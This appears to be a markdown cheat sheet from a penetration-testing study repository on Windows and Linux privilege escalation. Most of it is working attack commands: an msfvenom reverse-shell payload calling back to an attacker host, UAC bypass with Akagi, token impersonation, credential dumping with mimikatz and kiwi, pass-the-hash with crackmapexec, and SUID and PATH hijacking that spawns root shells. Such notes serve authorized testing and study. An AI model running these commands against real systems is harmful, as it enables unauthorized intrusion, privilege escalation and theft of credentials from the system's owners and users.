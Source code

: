 # $\color{#009466}\textbf{Windows}$


Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM
<br>

<details>
<summary>$\huge{\text{Automation script}}$</summary>

- https://github.com/itm4n/PrivescCheck : useful for gather information
- `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

<br><br>  
</details>

<details>
<summary>$\huge{\text{UAC Bypass}}$</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- Prerequisites:
  1.  User must be a member of the Administrators group.
     - `net localgroup administrators`
  2. Full interactive shell with the victim (a common nc.exe shell is not enough).
     - You can use meterpreter
- Metasploit
  - search module bypassuac ...
- UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     - `ps` to show process 
     - (ex. `migrate <PID explorer.exe>`)
  3. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  5. Use exploit/multi/handler to start a listener
  6. Akagi64.exe 23 <payload_full_path>
     - **NOTE FULL PATH**
  7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

<br><br>
</details>

<details>
<summary>$\huge{\text{Impersonate Tokens}}$</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` : 2628, `ps` :
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

<br><br>
</details>

<details>
<summary>$\huge{\text{Password in configuration file (Unattend.xml)}}$</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)

<br><br>     
</details>

<details>
<summary>$\huge{\text{Credential Dumping (Mimikatz - Kiwi - Hashdump)}}$</summary>
    
- Prerequisites: User must be a member a local Administrators.
1) Method (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `hashdump`
2) Kiwi (Metasploit - Meterpreter)
   - You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   - `load kiwi`
   - `creds_all` Retrieve all credentials (parsed)
   - `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   - To find the clear text passwords : `lsa_dump_secrets`
     - However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3) Mimikatz
   - upload mimikatz.exe
   - `\mimkatz.exe`
   - `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   - `lsadump::sam` : NTLM hashes for all of the user accounts on the system 
   - `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

<br><br>
</details>

<details>
<summary>$\huge{\text{Pass the Hash}}$</summary>

Useful for persinstence...
1) `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2) Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   - empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     - `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   - With `hashdump` you have the right format

<br><br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

<br><br>
</details>


# $\color{#009466}\textbf{Linux}$

<details>
<summary>$\huge{\text{Vulnerable program}}$</summary>

- Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  - `ps aux`

<br><br>
</details>

<details>
<summary>$\huge{\text{Weak Permissions}}$</summary>
  
- `find / -not -type l -perm -o+w ` : world-writable files
  - Example: maybe you can edit shadow file...

<br><br>
</details>

<details>
<summary>$\huge{\text{Sudo}}$</summary>
  
- `sudo -l`
  - search on gtfobins how to exploit

<br><br>
</details>

<details>
<summary>$\huge{\text{SUID - custom binary}}$</summary>
  
- Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
- Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  - `strings binary_name`
1. Method
   - `cp /bin/bash /path/to/loaded_binary`
2. Method
- Delete the loaded binary and replace with a new one:
- ```
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
- `gcc binary.c -o <loaded_binary>` : compile
- `./binary_name` : run the binary


<br><br>
</details>

<details>
<summary>$\huge{\text{Other}}$</summary>

- `sudo -l`
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)

<br><br>

# Resource
- **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
- **gtfobins.github.io** *GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems*
- **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** *Linux Privilege Escalation Awesome Script*
- **github.com/DominicBreuker/pspy** *Monitor linux processes without root permissions*
- **github.com/gtworek/Priv2Admin** *Windows Privileges with Windows OS privileges*

</details>

